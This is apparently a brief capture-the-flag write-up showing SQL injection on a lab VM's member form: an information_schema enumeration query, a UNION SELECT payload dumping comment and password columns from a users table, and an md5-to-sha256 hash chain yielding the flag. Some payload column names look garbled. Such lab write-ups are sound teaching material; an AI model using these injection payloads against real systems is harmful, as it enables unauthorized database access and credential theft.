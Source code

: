 We have a form to fill at the page "http://192.168.56.102/?page=member".

<img width="1307" alt="Screen Shot 2021-12-10 at 2 15 46 PM" src="https://user-images.githubusercontent.com/64800542/145579818-6fa28415-7c3f-47f0-b6c4-a7bb4f375bab.png">

It looks like backend use the input from it right in an SQL statement, like in the previus example. So we can use it for an "injection".

Let's take a look on schema:

>SELECT table_name, column_name FROM information_schema.columns

Now we know all the columns and names:


Let's see what is inside the hidden columns:

>1 AND 1=2 UNION SELECT planet
>, CONCAT(Commentaire, countersign) FROM users;

<img width="1068" alt="Screen Shot 2021-12-10 at 2 16 33 PM" src="https://user-images.githubusercontent.com/64800542/145579847-e5aa13d8-3c92-4998-ad9c-efa91e766540.png">


>5ff9d0165b4f92b14994e5c685cdce28 >> md5 >> FortyTwo >> lower() >> sh256 >> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5





